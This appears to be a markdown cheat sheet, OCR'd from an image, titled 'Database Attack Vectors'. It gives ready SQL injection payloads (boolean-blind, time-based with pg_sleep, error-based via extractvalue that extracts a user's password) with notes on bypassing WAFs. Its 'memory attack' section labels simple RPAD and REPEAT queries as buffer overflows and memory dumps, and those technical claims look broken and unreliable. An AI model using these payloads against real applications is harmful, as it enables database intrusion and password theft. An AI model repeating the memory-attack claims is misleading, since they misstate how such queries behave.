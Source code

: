## Database Attack Vectors

### SQL Injection Types
1. **Boolean-Based Blind**
```sql
-- Technique
username=admin' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END)=1--
```
- Works by forcing true/false responses
- Exfiltrates data bit by bit
- Often bypasses WAF
- Uses conditional responses

2. **Time-Based Blind**
```sql
-- Technique
username=admin' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
- Relies on response time differences
- Uses database sleep functions
- Bypasses output restrictions
- Exploits asynchronous execution

3. **Error-Based**
```sql
-- Technique
username=admin' AND extractvalue(rand(),concat(0x3a,(SELECT password FROM users LIMIT 1)))--
```
- Exploits database error messages
- Uses type conversion errors
- Leverages XML functions
- Forces informative errors

### Database Memory Attacks

1. **Buffer Overflow Patterns**
```sql
-- Attack vector
SELECT RPAD('x', 99999999, 'y') FROM dual;
```
- Targets memory allocation
- Exploits string functions
- Causes memory exhaustion
- Triggers OOM conditions

2. **Memory Dump Techniques**
```sql
-- Memory dump through overflow
SELECT CAST(REPEAT('A', 1024*1024) AS varchar) || some_column FROM some_table;
```
- Forces memory reallocation
- Triggers page swapping
- Exploits memory fragmentation
- Causes buffer overruns

